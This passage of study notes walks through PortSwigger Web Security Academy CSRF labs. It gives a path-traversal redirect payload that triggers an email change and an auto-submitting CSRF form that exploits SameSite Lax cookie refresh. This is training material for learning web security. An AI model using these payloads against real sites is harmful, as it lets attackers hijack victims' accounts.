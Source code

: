 - payload3 (append the change email request):
```
post/comment/confirmation?postId=../my-account/change-email?email=paein%40web-security-academy.net&submit=1"
```

`/change-email?email=paein%40web-security-academy.net&submit=1"` is taken from the POST change email request page

- payload4 (URL encode the value of the '&' which is %26):
```
post/comment/confirmation?postId=../my-account/change-email?email=paein%40web-security-academy.net%26submit=1" 
```

- final script payload (append the host https://HOST/POST)
```
<script>
document.location=https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email?email=paein%40web-security-academy.net%26submit=1" 
</script>
```

## **9. SameSite Lax bypass via cookie refresh
##### Study the change email function
1. In Burp's browser, log in via your social media account and change your email address.
2. In Burp, go to the **Proxy > HTTP history** tab.
3. Study the `POST /my-account/change-email` request and notice that this doesn't contain any unpredictable tokens, so may be vulnerable to CSRF if you can bypass any SameSite cookie restrictions.
4. Look at the response to the `GET /oauth-callback?code=[...]` request at the end of the [OAuth](https://portswigger.net/web-security/oauth) flow. Notice that the website doesn't explicitly specify any SameSite restrictions when setting session cookies. As a result, the browser will use the default `Lax` restriction level.

##### Attempt a CSRF attack
1. In the browser, go to the exploit server.
2. Use the following template to create a basic CSRF attack for changing the victim's email address:
```
<script>
    history.pushState('', '', '/')
</script>

<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="foo@bar.com" />
    <input type="submit" value="Submit request" />
</form>

<script>
    document.forms[0].submit();
</script>
```

3. Store and view the exploit yourself. What happens next depends on how much time has elapsed since you logged in:
    - If it has been longer than two minutes, you will be logged in via the OAuth flow, and the attack will fail. In this case, repeat this step immediately.
    - If you logged in less than two minutes ago, the attack is successful and your email address is changed. From the **Proxy > HTTP history** tab, find the `POST /my-account/change-email` request and confirm that your session cookie was included even though this is a cross-site `POST` request.
